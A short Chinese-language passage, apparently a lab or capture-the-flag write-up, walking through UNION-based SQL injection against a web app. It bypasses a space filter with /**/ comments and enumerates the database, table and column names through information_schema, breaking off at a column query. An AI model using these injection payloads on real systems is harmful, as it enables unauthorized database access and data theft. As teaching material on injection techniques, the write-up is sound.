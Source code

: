 之后开始注入

尝试正常的 union 联合注入

```plain
OSI%' union select database(),2,3 like '1
```

发现没有回显，先尝试是不是空格被过滤了，之后考虑关键词绕过

```plain
OSI%'/**/union/**/select/**/database(),2,3/**/like/**/'1
```

[![](assets/1701678867-d36c13a005fb32b36e172260266f1eee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203520-97a1fcf2-8dea-1.png)

再看表名

```plain
OSI%'/**/union/**/select/**/group_concat(table_name),2,3/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'webapp
```

[![](assets/1701678867-c5e681aa604573b6fbc4b91b6a35bec9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203525-9b22307c-8dea-1.png)

再看字段名

```plain
OSI%'/**/union/**/select/**/group_concat(column_name),2,3/**/from/**/information_schema.columns/**/where/**/table_schema='webapphacking'/**/and/**/table_name/**/like/**/'use
```
